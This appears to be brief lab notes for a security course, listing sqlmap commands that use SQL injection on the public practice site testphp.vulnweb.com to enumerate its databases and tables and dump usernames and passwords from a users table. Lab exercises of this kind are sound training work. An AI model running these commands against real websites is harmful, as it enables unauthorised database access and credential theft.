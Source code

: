 # 3-2lab


sql cammods


sqlmap –u testphp.vulnweb.com/artists.php?artist=1 --dbs

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart --tables

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C columns

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C uname --dump

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C pass –dump

